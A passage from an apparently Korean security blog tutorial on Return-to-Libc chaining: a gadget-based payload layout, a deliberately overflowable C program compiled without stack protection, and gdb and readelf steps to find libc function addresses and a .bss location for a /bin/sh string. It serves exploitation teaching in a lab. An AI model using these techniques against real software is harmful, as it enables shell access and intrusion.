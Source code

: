 위 어셈블리 코드를 보면 6~10번째 줄에 우리가 찾던 Gadget들이 있다. 이것들 중 우리는 pop ret만 필요하므로 0x804850a 만 챙긴다.

그러면 다음과 같은 payload가 만들어 진다.

```
[dummy code] + [&call_me1] + [0x804850a] + [call_me1 인자 값] + [&call_me2] + [0x804850a] + [call_me2 인자 값]
```

이런식으로 RTL Chaining 공격 기법을 실습하기 전 간단한 공격 원리를 설명했다. 잘 이해가 가질 않는다면 아래 블로그 주소를 보는 것을 추천한다. https://kblab.tistory.com/222

---

### 0x03 Return To Libc Chaining

본격적으로 공격 실습을 해보겠다. 아래 코드는 실습을 위한 코드이며, 이를 gcc에 아래와 같은 옵션을 넣어 컴파일을 해준다.

```c
/* File name: vuln.c */

#include <stdio.h>

int main(){
        char buf[50];
        read(0,buf,100);
        printf("%s\n",buf);
}
```

```
$ gcc -m32 -mpreferred-stack-boundary=2 -fno-stack-protector -fno-pic -no-pie -o vuln vuln.c
```

RTL 공격처럼 공유 라이브러리 함수 주소를 알아내기 위해 main함수에 breakpoint를 걸고 아래와 같은 명령어로 공유 라이브러리 함수 주소를 알아낸다.

```
gdb-peda$ b *main
gdb-peda$ r

gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e21d10 <system>
gdb-peda$ p read
$2 = {<text variable, no debug info>} 0xf7eca620 <read>
gdb-peda$ p exit
$3 = {<text variable, no debug info>} 0xf7e14f70 <exit>
```

함수의 호출은 read -> system -> exit 순이다. read 함수에 /bin/sh 문자열을 입력하고, 이 문자열을 system 함수에 값을 넘겨 shell을 실행하는 것이다. 그러기 위해서는 /bin/sh 문자열을 저장할 곳과 그 저장된 주소가 변하지 않는 곳을 찾아야 한다.

알맞은 메모리 영역은 data, bss, dynamic 이라는 곳이다. 이 중 bss 영역의 주소를 아래와 같은 명령어로 찾는다. bss 주소는 0x0804a020 이다.

```
$readelf -S [컴파일 된 파일 명] | grep "bss"
  [25] .bss              NOBITS          0804a020 001020 000004 00  WA  0   0  1
```
